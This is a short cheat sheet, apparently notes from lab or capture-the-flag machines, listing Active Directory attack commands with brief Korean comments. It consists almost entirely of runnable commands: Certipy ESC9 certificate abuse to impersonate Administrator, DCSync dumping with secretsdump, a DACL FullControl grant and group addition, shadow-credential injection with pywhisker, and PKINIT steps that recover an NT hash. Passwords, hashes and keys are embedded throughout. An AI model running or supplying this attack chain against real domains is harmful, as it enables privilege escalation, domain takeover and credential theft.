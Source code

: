 ### certipy
```
python3 /opt/Certipy/certipy/entry.py find -u ca_operator@pinocure.com -hashes b4b86f45c6018f1b664f70805f45d8f2 -vulnerable -stdout

# ESC9
certipy-ad account update -username management_svc@pinocure.com -hashes a091c1832bcdd4677c28b5a6a1295584 -user ca_operator -upn Administrator

# 관리자 pfx 생성
certipy-ad req -username ca_operator@pinocure.com -hashes b4b86f45c6018f1b664f70805f45d8f2 -ca certified-DC01-CA -template CertifiedAuthentication
certipy-ad account update -username management_svc@pinocure.com -hashes a091c1832bcdd4677c28b5a6a1295584 -user ca_operator -upn ca_operator@pinocure.com

# 관리자 TGT 획득
certipy-ad auth -pfx administrator.pfx -domain pinocure.com -dc-ip 10.10.11.41
```

### DCSync
```
secretsdump.py -just-dc pinocure.com/ethan@10.10.11.42
secretsdump.py pinocure/svc_loanmgr@10.10.10.175 -just-dc-user Administrator
```

### impacket - dacledit.py
```
python3 /opt/dacleedit-with-impacket/examples/dacledit.py -action 'write' -rights 'FullControl' -inheritance -principal 'judith.mader' -target 'management' "pinocure.com"/"judith.mader":'judith09'

# management 그룹 추가
net rpc group addmem "management" "judith.mader" -U "pinocure.com"/"judith.mader"%'judith09' -S "dc01.pinocure.com"
```

### pywhisker - TGT 획득
```
python3 /opt/pywhisker/pywhisker/pywhisker.py -d "pinocure.com" -u "judith.mader" -p "judith09" --target "management_svc" --action "add"
```

### PKINTtools - TGT 획득
```
python3 /opt/PKINITtools/gettgtpkinit.py -cert-pfx CqsvXJDp.pfx pinocure.com/management_svc -pfx-pass 'KyM37JAbJekY5Rni6Amt' management_svc.ccache

export KRB5CCNAME=management_svc.ccache
python3 /opt/PKINITtools/getnthash.py -key ef5b92bda9dff6a60b909b74c9db14e9ad20e89de2e00e6e4c98cdc4966088ae pinocure.com/management_svc
```






















